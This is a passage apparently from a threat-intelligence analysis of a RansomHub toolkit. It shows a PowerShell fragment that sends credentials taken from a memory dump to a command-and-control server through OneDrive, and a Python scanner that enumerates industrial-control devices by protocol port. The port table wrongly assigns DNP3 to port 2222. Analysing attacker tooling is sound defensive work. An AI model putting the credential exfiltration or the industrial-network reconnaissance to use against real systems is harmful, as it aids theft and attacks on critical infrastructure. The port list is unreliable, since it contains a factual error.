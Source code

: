 ```powershell
    
    # Exfiltrate via legitimate cloud service
    $creds = Parse-MiniDump $dumpFile
    Send-ToC2 -Data $creds -Method "OneDrive"
}
```

### Phase 3: OT Network Discovery
**MITRE ATT&CK**: T0840 - Network Connection Enumeration [[72]](#ref72)

#### Network Reconnaissance Tool
```python
# Custom OT discovery tool found in RansomHub toolkit
# Identifies industrial protocols and devices
import socket
import struct
from scapy.all import *

class OTDiscovery:
    def __init__(self):
        self.protocols = {
            44818: "EtherNet/IP",
            502: "Modbus",
            102: "S7",
            2222: "DNP3",
            47808: "BACnet",
            4840: "OPC UA"
        }
    
    def scan_ot_network(self, network):
        discovered_devices = []
        
        for port, protocol in self.protocols.items():
            try:
                # Send protocol-specific discovery packet
                response = self.send_discovery_packet(network, port, protocol)
                if response:
                    device_info = self.parse_response(response, protocol)
                    discovered_devices.append({
                        'ip': device_info['ip'],
                        'protocol': protocol,
                        'vendor': device_info['vendor'],
                        'model': device_info['model'],
                        'firmware': device_info['firmware']
                    })
            except:
                continue
                
        return discovered_devices
```

